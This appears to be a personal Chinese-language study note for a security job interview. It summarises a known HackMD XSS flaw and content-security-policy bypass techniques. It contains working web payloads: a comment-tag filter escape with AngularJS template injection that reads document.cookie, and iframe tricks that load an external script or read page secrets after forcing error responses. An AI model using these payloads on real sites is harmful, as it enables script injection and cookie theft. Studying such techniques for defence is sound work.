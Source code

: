 下午有腾讯的面试，现在开始临阵磨枪吧！

- Markdown XSS防御 ：https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html 
- CSP绕过
- IDOR
- telegram APT34工具下载


### HackMD XSS
学习大佬们：https://github.com/hackmdio/codimd/issues?utf8=%E2%9C%93&q=XSS  
Orange：再安全的函示庫碰到不安全的用法也會無用武之地  
测试了一下自己本地未升级的typora，果然还是存在很多xss rce的漏洞的  
想起自己之前导出pdf时由于某html标签截断后续文档，为什么当时就没有试着去挖一下呢？diss自己！

1. 信任问题
npm/xss 提供了多個不同的選項給開發者，而其中在 onIgnoreTag 這個 callback 中，開發者判斷了如果是註解的標籤便直接回傳原始的 HTML 內容，在 JavaScript 上的註解也寫得很直白!于是利用注释绕过xss过滤，payload:`<!-- foo="bar--> <s>Hi</s>" -->`

2. CSP绕过
HackMD使用了 CSP(Content Security Policy) 去阻擋未授權的 JavaScript 代碼執行  
检查unsafe_eval: https://cdnjs.cloudflare.com  可以通过第三方库绕过+客户端模版注入绕过


3. payload
透過註解標籤屬性的跳脫及 CSP 的繞過
```
<!-- foo="-->
<script src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.min.js>
</script>
<div ng-app>
    {{constructor.constructor('alert(document.cookie)')()}}
</div>
//sssss" -->
```
### CSP绕过
读了一篇文章，讲了两种思路，大概总结一下：

- https://xz.aliyun.com/t/2438

- http://heartsky.info/2017/03/03/%E9%82%A3%E4%BA%9B%E5%B9%B4%E6%88%91%E4%BB%AC%E7%BB%95%E8%BF%87%E7%9A%84CSP/

```
Content-Security-Policy：default-src'self''unsafe-inline';
```

1. 通过frame窗口绕过

```js
frame=document.createElement("iframe");
frame.src=”/css/bootstrap.min.css”;
document.body.appendChild(frame);

script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```

2. 如果设置了X-Frame-Options:Deny

   使用CSP的第二个常见错误，是在返回Web扫描程序错误时没有提供保护性头部。若要验证这一点，最简单方法是尝试打开并不存在的网页。许多资源只为含有200代码的响应提供了X-Frame-Options头部，而没有为包含404代码的响应提供相应的头部。

   鉴于此，我们还可以设法让网站返回标准Web服务器的“invalid request”消息。产生错误的各种方法

   - 404： 输入一个不存在的路径

   - 400 bad request 访问不可访问路径

     ```js
     frame=document.createElement("iframe");
     frame.src="/%2e%2e%2f";
     document.body.appendChild(frame);
     ```

   - 传递不正确的unicode路径，如/％或/%%z

   - 414 request url too large让URL超过所允许的长度

     ```
     frame=document.createElement("iframe");
     frame.src="/"+"A".repeat(20000);
     document.body.appendChild(frame);
     ```

   - cookie长度过长(400 Bad RequestRequest Header Or Cookie Too Large)

     ```js
     for(var i=0;i<5;i++){document.cookie=i+"="+"a".repeat(4000)};
     ```

        ```
     http://hsts.pro/csp.php?xss=for(var i=0;i<5;i++){document.cookie=i+"="+"a".repeat(4000)};f=document.createElement("iframe");f.id="pwn";f.src="/";f.onload=()=>{for(var i=0;i<5;i++){document.cookie=i+"="};x=document.createElement('script');x.src='data:,alert("Pwned "+top.secret.textContent)';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);
        ```

     

   







